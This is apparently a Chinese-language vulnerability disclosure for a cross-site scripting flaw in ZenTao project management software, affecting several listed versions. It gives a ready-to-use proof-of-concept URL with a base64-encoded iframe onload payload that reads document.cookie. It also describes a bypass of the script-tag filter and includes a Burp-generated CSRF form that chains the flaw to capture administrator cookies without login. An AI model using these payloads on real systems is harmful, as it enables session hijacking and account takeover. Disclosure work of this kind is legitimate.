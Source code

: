 # 禅道全版本存在跨站脚本攻击(XSS)

说明：禅道项目管理软件是开源项目管理软件。其最新版（企业版<=5.0.rc1，专业版<=10.0.rc1,开源版<=15.0）存在跨站脚本攻击。用户无需登录，可构造poc，获取管理员cookie.
条件：/config/my.php设置$config->requestType= 'GET'

## 1.poc

poc:
```
/index.php?m=user&f=login&t=json&referer=L2luZGV4LnBocD9tPXVzZXImZj0xJnQ9anNvbiZyZWZlcmVyPTxpZnJhbWUgb25sb2FkPSdhbGVydChkb2N1bWVudC5jb29raWUpJz4=
```

![img](1.png)
此处采用过滤了```<script>```,采用```<iframe onload='alert(document.cookie)'>```可以绕过

## 2.危害
可结合csrf构造攻击链：
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://ip:8002/index.php">
      <input type="hidden" name="m" value="user" />
      <input type="hidden" name="f" value="login" />
      <input type="hidden" name="t" value="json" />
      <input type="hidden" name="referer" value="L2luZGV4LnBocD9tPXVzZXImZj0xJnQ9anNvbiZyZWZlcmVyPTxpZnJhbWUgb25sb2FkPSdhbGVydChkb2N1bWVudC5jb29raWUpJz4&#61;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
![img](2.png)

通过点击或者其他方式获取cookie
![img](3.png)
